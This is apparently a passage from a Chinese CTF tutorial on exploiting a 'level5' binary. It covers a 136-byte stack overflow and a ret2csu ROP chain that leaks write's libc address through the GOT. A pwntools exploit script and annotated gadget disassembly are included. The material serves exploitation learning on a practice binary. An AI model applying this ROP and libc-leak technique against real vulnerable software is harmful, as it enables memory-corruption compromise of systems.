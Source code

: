 > (gdb) x /wx $rsp    # 以16进制显示指定rsp寄存器中的数据
>

栈偏移为136，与IDA测的0x88相等，呀，这次IDA测得挺准的，2333~

从IDA里可以看到，没有system函数，但有一个已知的write函数，我们可以利用这个函数并利用libc泄露出程序加载到内存后的地址（<font style="color:#333333;">当然也可以选用__libc_start_main</font>）。

首先寻找write函数在内存中的真实地址：

```python
from pwn import *

p = process('./level5')
elf = ELF('level5')

pop_addr = 0x40061a          
write_got = elf.got['write']
mov_addr = 0x400600
main_addr = elf.symbols['main']

p.recvuntil('Hello, World\n')
payload0 = 'A'*136 + p64(pop_addr) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(mov_addr) + 'a'*(0x8+8*6) + p64(main_addr)
p.sendline(payload0)

write_start = u64(p.recv(8))
print "write_addr_in_memory_is "+hex(write_start)
```

重点解释一下这里的payload0：

> payload0 = 'A'*136 + p64(pop_addr) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(mov_addr) + 'a'*(0x8+8*6) + p64(main_addr)
>

首先输入136个字符使程序发生栈溢出，然后让pop_addr覆盖栈中的返回地址，使程序执行pop_addr地址处的函数，并分别将栈中的0、1、write_got函数地址、8、write_got、1分别pop到寄存器rbx、rbp、r12、r13、r14、r15中去，之后将pop函数的返回地址覆盖mov_addr的地址为，如下：

> 注意：payload发送的内容都在栈上或堆上，这得看你的变量在栈上还是堆上，具体情况具体分析
>

```c
.text:000000000040061A                 pop     rbx  //rbx->0
.text:000000000040061B                 pop     rbp  //rbp->1
.text:000000000040061C                 pop     r12  //r12->write_got函数地址
.text:000000000040061E                 pop     r13  //r13->8
.text:0000000000400620                 pop     r14  //r14->write_got函数地址
.text:0000000000400622                 pop     r15  //r15->1
.text:0000000000400624                 retn         //覆盖为mov_addr
```

> 解释一下payload中两个write_got函数的作用：
>
> 再布置完寄存器后，由于有 call qword ptr [r12+rbx*8]它调用了write函数，其参数为write_got函数地址（r14寄存器，动调一下就知道了），写成C语言类似于：write(write_got函数地址)==printf（write_got函数地址），再使用u64(p.recv(8))接受数据并print出来就行了
>
